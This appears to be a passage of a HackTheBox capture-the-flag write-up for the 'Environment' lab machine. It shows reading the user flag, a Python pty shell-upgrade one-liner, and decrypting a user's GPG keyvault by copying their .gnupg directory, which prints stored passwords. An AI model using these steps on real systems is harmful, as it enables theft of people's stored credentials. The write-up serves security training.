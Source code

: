 ```bash
total 36K
drwxr-xr-x 5 hish hish 4.0K Apr 11 00:51 .
drwxr-xr-x 3 root root 4.0K Jan 12  2025 ..
lrwxrwxrwx 1 root root    9 Apr  7 19:29 .bash_history -> /dev/null
-rw-r--r-- 1 hish hish  220 Jan  6  2025 .bash_logout
-rw-r--r-- 1 hish hish 3.5K Jan 12  2025 .bashrc
drwxr-xr-x 4 hish hish 4.0K Aug 28 22:19 .gnupg
drwxr-xr-x 3 hish hish 4.0K Jan  6  2025 .local
-rw-r--r-- 1 hish hish  807 Jan  6  2025 .profile
drwxr-xr-x 2 hish hish 4.0K Jan 12  2025 backup
-rw-r--r-- 1 root hish   33 Aug 28 15:11 user.txt
```

```bash
cat user.txt
```

```bash
# 64c2d3<REDACTE>>
```

Shell upgrade:

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Backup contains encrypted files:

```bash
/home/hish/backup/keyvault.gpg
```

```bash
file keyvault.gpg 
```

```bash
keyvault.gpg: PGP RSA encrypted session key - keyid: B755B0ED D6CFCFD3 RSA (Encrypt or Sign) 2048b .
```

---

### KeyVault Decryption

```bash
export HOME=/tmp
cp -r .gnupg/ /tmp
gpg --decrypt keyvault.gpg
```

Results:

```
gpg: WARNING: unsafe permissions on homedir '/tmp/.gnupg'
gpg: encrypted with 2048-bit RSA key, ID B755B0EDD6CFCFD3, created 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```
